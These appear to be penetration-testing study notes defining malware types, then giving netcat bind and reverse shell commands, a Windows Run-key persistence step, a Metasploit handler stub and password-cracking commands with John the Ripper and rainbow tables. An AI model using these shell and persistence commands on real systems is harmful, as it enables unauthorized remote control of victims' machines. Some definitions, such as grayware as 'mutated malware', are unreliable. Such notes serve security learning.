 #### Malware
* Malicious Software that allows user to harm other system/user.
* Impact: Can cause DOS, Spy Users, Gain Unauthorized Access.

|Types|
|---|
|Virus|
|Trojan|
|Rootkit| 
|Bootkit|
|Adware|
|Spyware|
|Greyware|
|Dialer|
|Keylogger|
|Botnet|
|Ransomware|
|Worm|
|Data Stealing Malware|

#### Virus 
> Small piece of code that affects system, may execute every time when opeing the code, may replicate itself.

#### Trojan Horse
> Malware that can be embedded in harmless files like pdfs, Microsoft Office Files,etc. eg. Backdoor that can allow malicious user to gain shell on remote machine.Firewall can be used by network adminstrator to restrict connections from internet to internal machines.

#### Rootkit
> Malware that allows attacker to subert OS functioning.Attacker can maintain privileged access to victim machine bypassing firewalls.

#### Adware 
> Malcious software program that shows annoying ads to victim.

#### Spyware
> SOftware that allows attacker to monitor victims activities.Collects information like visited websites, collects password, etc.

#### Grayware
> Mutated malware

#### Keylogger
> Tracks users keystrokes, password and sends to attacker.Can be used in penetration tests.

|Keyloggers|Hardware Keylogger(Pendrive)|Rootkit Keylogger(more shealthy,invisible, works at kernel level hijacking OS APIs)|
|---|---|---|

![Screenshot at 2022-12-25 10-49-08](https://user-images.githubusercontent.com/85208639/209457618-4d5c4dd3-b815-4fbd-bc4f-fe2852fb2709.png)

#### Botnets
> Small Software programs installed on mass computers. Consist of C&C Server aand can be instructed to perform certain task simultaneously.

#### Ransomware
> Software that encrypts victims files with secret key.

#### Data Stealing Software
> Malicious software program capable of stealing most sensitive data.

#### Backdoor With Netcat

```
ncat.exe -l -p 5555 -e cmd.exe >> In victims Machine

nc 192.168.10.102 5555

```

#### Reverse Connection With Netcat

> Victim is on internal network and attacker wants to connect to it.

```
nc -lvp 5555  >> Attacker listens on port 5555
nc.exe -e cmd.exe 192.168.0.1 5555


```

#### Creating Persistent Backdoor With Netcat

* Attacker needs to edit the victims registry so even when victim closes his system upon reboot attacker will be able to get a shell.
```
nc -l -v -p 5555 >> In attackers machine
Open "regedit" in victims machine and navigate to "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"  and add new registry.
```
![Screenshot at 2022-12-25 13-04-04](https://user-images.githubusercontent.com/85208639/209460152-2b8f0ad9-177d-4f3e-8ff7-a91606ae3f93.png)


![Screenshot at 2022-12-25 13-05-33](https://user-images.githubusercontent.com/85208639/209460287-434fc945-ac92-4dc4-8a47-4bc57df29c0e.png)

#### Session Management With Metasploit 
> Since we have already obtained shell previously we can use metasploit to get more features.

#### Convert Reverse Shell to Meterpreter Shell
```
use multi/hander
set LHOST, LPORT on which you will listen and run
```

#### Password Attacks

##### Password Cracking
>Process of recoveing plaintext password from hash. Here attacker tries to guess password, hashes it and then compares the result against the password file.

##### Techniques
* Bruteforce Attack (Takes heck long time but yeilds better result)
* Dictionary Attack (Faster)

##### John the Ripper
###### M4ng1ing Rules with john the ripper
```
john -wordlist=file -rules <file to crack>
```

#### Rainbow Tables:

Password Cracking with rtgen
#### Rainbow Table Creation
```
sudo rtgen md5 loweralpha 1 3 0 1000 1000 0

echo "bug" | md5sum
> ae0e4bdad7b5f67141743366026d2ea5

rcrack md5_loweralpha#1-3_0_1000x1000_0.rt -h ae0e4bdad7b5f67141743366026d2ea5 >> hash will be cracked.

```
